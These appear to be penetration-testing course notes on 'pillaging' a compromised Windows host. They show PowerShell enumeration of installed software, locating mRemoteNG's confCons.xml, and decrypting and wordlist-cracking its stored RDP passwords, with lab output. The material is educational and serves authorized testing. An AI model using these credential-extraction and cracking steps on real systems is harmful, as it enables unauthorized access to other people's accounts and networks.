 # Pillaging

Pillaging is the process of obtaining information from a compromised system. It can be personal information, corporate blueprints, credit card data, server information, infrastructure and network details, passwords, or other types of credentials, and anything relevant to the company or security assessment we are working on.

These data points may help gain further access to the network or complete goals defined during the pre-engagement process of the penetration test. This data can be stored in various applications, services, and device types, which may require specific tools for us to extract.

## Data Sources

Below are some of the sources from which we can obtain information from compromised systems:

- Installed applications
- Installed services
    - Websites
    - File Shares
    - Databases
    - Directory Services (such as Active Directory, Azure AD, etc.)
    - Name Servers
    - Deployment Services
    - Certificate Authority
    - Source Code Management Server
    - Virtualization
    - Messaging
    - Monitoring and Logging Systems
    - Backups
- Sensitive Data
    - Keylogging
    - Screen Capture
    - Network Traffic Capture
    - Previous Audit reports
- User Information
    - History files, interesting documents (.doc/x,.xls/x,password.*/pass.*, etc)
    - Roles and Privileges
    - Web Browsers
    - IM Clients
    
    # **Installed Applications**
    
    **Get Installed Programs via PowerShell & Registry Keys**
    
    ```powershell
    PS C:\htb> $INSTALLED = Get-ItemProperty HKLM:\Software\Microsoft\Windows\CurrentVersion\Uninstall\* |  Select-Object DisplayName, DisplayVersion, InstallLocationPS C:\htb> $INSTALLED += Get-ItemProperty HKLM:\Software\Wow6432Node\Microsoft\Windows\CurrentVersion\Uninstall\* | Select-Object DisplayName, DisplayVersion, InstallLocationPS C:\htb> $INSTALLED | ?{ $_.DisplayName -ne $null } | sort-object -Property DisplayName -Unique | Format-Table -AutoSizeDisplayName                                         DisplayVersion    InstallLocation
    -----------                                         --------------    ---------------
    Adobe Acrobat DC (64-bit)                           22.001.20169      C:\Program Files\Adobe\Acrobat DC\
    CORSAIR iCUE 4 Software                             4.23.137          C:\Program Files\Corsair\CORSAIR iCUE 4 Software
    Google Chrome                                       103.0.5060.134    C:\Program Files\Google\Chrome\Application
    Google Drive                                        60.0.2.0          C:\Program Files\Google\Drive File Stream\60.0.2.0\GoogleDriveFS.exe
    Microsoft Office Profesional Plus 2016 - es-es      16.0.15330.20264  C:\Program Files (x86)\Microsoft Office
    Microsoft Office Professional Plus 2016 - en-us     16.0.15330.20264  C:\Program Files (x86)\Microsoft Office
    mRemoteNG                                           1.62              C:\Program Files\mRemoteNG
    TeamViewer                                          15.31.5           C:\Program Files\TeamViewer
    ...SNIP...
    ```
    
    We can see the `mRemoteNG` software is installed on the system. [mRemoteNG](https://mremoteng.org/) is a tool used to manage and connect to remote systems using VNC, RDP, SSH, and similar protocols. Let's take a look at `mRemoteNG`.
    
    ### mRemoteNG
    
    `mRemoteNG` saves connection info and credentials to a file called `confCons.xml`. They use a hardcoded master password, `mR3m`, so if anyone starts saving credentials in `mRemoteNG`
     and does not protect the configuration with a password, we can access 
    the credentials from the configuration file and decrypt them.
    
    By default, the configuration file is located in `%USERPROFILE%\APPDATA\Roaming\mRemoteNG`.
    
    **Discover mRemoteNG Configuration Files**
    
    ```powershell
    PS C:\htb> ls C:\Users\julio\AppData\Roaming\mRemoteNG
    
        Directory: C:\Users\julio\AppData\Roaming\mRemoteNG
    
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    d-----        7/21/2022   8:51 AM                Themes
    -a----        7/21/2022   8:51 AM            340 confCons.xml
                  7/21/2022   8:51 AM            970 mRemoteNG.log
    ```
    
    **mRemoteNG Configuration File - confCons.xml**
    
    ```xml
    <?XML version="1.0" encoding="utf-8"?>
    <mrng:Connections xmlns:mrng="http://mremoteng.org" Name="Connections" Export="false" EncryptionEngine="AES" BlockCipherMode="GCM" KdfIterations="1000" FullFileEncryption="false" Protected="QcMB21irFadMtSQvX5ONMEh7X+TSqRX3uXO5DKShwpWEgzQ2YBWgD/uQ86zbtNC65Kbu3LKEdedcgDNO6N41Srqe" ConfVersion="2.6">
        <Node Name="RDP_Domain" Type="Connection" Descr="" Icon="mRemoteNG" Panel="General" Id="096332c1-f405-4e1e-90e0-fd2a170beeb5" Username="administrator" Domain="test.local" Password="sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" Hostname="10.0.0.10" Protocol="RDP" PuttySession="Default Settings" Port="3389"
        ..SNIP..
    </Connections>
    ```
    
    This XML document contains a root element called `Connections` with the information about the encryption used for the credentials and the attribute `Protected`,
     which corresponds to the master password used to encrypt the document. 
    We can use this string to attempt to crack the master password. We will 
    find some elements named `Node` within the root element. 
    Those nodes contain details about the remote system, such as username, 
    domain, hostname, protocol, and password. All fields are plaintext 
    except the password, which is encrypted with the master password.
    
    As mentioned previously, if the user didn't set a custom master password, we can use the script [mRemoteNG-Decrypt](https://github.com/haseebT/mRemoteNG-Decrypt) to decrypt the password. We need to copy the attribute `Password` content and use it with the option  `-s`. If there's a master password and we know it, we can then use the option `-p` with the custom master password to also decrypt the password.
    
    ### Decrypt the Password with mremoteng_decrypt
    
    Pillaging
    
    ```
    doshim@htb[/htb]$ python3 mremoteng_decrypt.py -s "sPp6b6Tr2iyXIdD/KFNGEWzzUyU84ytR95psoHZAFOcvc8LGklo+XlJ+n+KrpZXUTs2rgkml0V9u8NEBMcQ6UnuOdkerig==" Password: ASDki230kasd09fk233aDA
    
    ```
    
    ## Custom Password set
    
    ### Attempt to Decrypt the Password with a Custom Password
    
    Pillaging
    
    ```
    doshim@htb[/htb]$ python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA=="Traceback (most recent call last):
      File "/home/plaintext/htb/academy/mremoteng_decrypt.py", line 49, in <module>
        main()
      File "/home/plaintext/htb/academy/mremoteng_decrypt.py", line 45, in main
        plaintext = cipher.decrypt_and_verify(ciphertext, tag)
      File "/usr/lib/python3/dist-packages/Cryptodome/Cipher/_mode_gcm.py", line 567, in decrypt_and_verify
        self.verify(received_mac_tag)
      File "/usr/lib/python3/dist-packages/Cryptodome/Cipher/_mode_gcm.py", line 508, in verify
        raise ValueError("MAC check failed")
    ValueError: MAC check failed
    
    ```
    
    If we use the custom password, we can decrypt it.
    
    ### Decrypt the Password with mremoteng_decrypt and a Custom Password
    
    Pillaging
    
    ```
    doshim@htb[/htb]$ python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p adminPassword: ASDki230kasd09fk233aDA
    
    ```
    
    In case we want to attempt to crack the password, we can modify the 
    script to try multiple passwords from a file, or we can create a Bash `for loop`. We can attempt to crack the `Protected` attribute or the `Password` itself. If we try to crack the `Protected` attribute once we find the correct password, the result will be `Password: ThisIsProtected`. If we try to crack the `Password` directly, the result will be `Password: <PASSWORD>`.
    
    ### For Loop to Crack the Master Password with mremoteng_decrypt
    
    Pillaging
    
    ```
    doshim@htb[/htb]$ for password in $(cat /usr/share/wordlists/fasttrack.txt);do echo $password; python3 mremoteng_decrypt.py -s "EBHmUA3DqM3sHushZtOyanmMowr/M/hd8KnC3rUJfYrJmwSj+uGSQWvUWZEQt6wTkUqthXrf2n8AR477ecJi5Y0E/kiakA==" -p $password 2>/dev/null;done
    Spring2017
    Spring2016
    admin
    Password: ASDki230kasd09fk233aDA
    admin admin
    admins
    
    <SNIP>
    
    ```
    

[Slack hacking](Pillaging%20cf41ed76a02a42ee8486d729fe41cca8/Slack%20hacking%20728312b32cb7429b8d57b7ba6c8b2251.md)

[keylogging](Pillaging%20cf41ed76a02a42ee8486d729fe41cca8/keylogging%20c2c2e422f93d4b7b83b29d0d7d5dd97d.md)

[Attacking restic backup servers](Pillaging%20cf41ed76a02a42ee8486d729fe41cca8/Attacking%20restic%20backup%20servers%201ace3c50b4ab451b8bbfccc9e00f3397.md)